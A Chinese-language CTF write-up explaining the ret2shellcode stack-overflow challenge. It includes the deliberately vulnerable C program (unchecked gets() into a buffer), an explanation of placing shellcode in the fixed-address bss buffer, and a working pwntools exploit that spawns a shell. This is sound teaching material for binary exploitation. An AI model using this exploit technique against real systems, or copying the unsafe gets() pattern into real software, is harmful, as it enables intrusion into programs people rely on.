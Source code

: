 ```yaml
---
layout:     post
title:      ret2shellcode
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2shellcode)



第八行，gets函数存在溢出，ret2shellcode程序没有system，不能直接像ret2text一样利用程序中已有的system('/bin/sh')代码

![image-20180911162609611](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-084850.png)



但是相比ret2text程序多了一个strncpy函数，这个函数的作用是把s中的内容拷贝到buf2中

第一个参数为buf2为目的地址，&s为源地址，0x64u为buf2长度

```c
char *strncpy(char *dest, const char *src, size_t n);

strncpy(buf2, &s, 0x64u);
```

所以这里就出现了一个思路，自己构造shellcode，通过strncpy拷贝到buf2中，然后main函数的返回地址覆盖为buf2的地址

```python
buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh()) #pwntools自带的模块

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))
#shellcode.ljust(112, 'a'）左填充
```



> buf2属于全局未初始化变量，在程序编译运行时候，在bss段中，地址固定不变
>
> buf属于局部未初始化变量，每一次程序加载运行在内存中的地址都是变化的

```c
ret2shellcode.c

#include <stdio.h>

#include <string.h>


char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```



exp：

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2shellcode')

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))

sh.interactive()
```



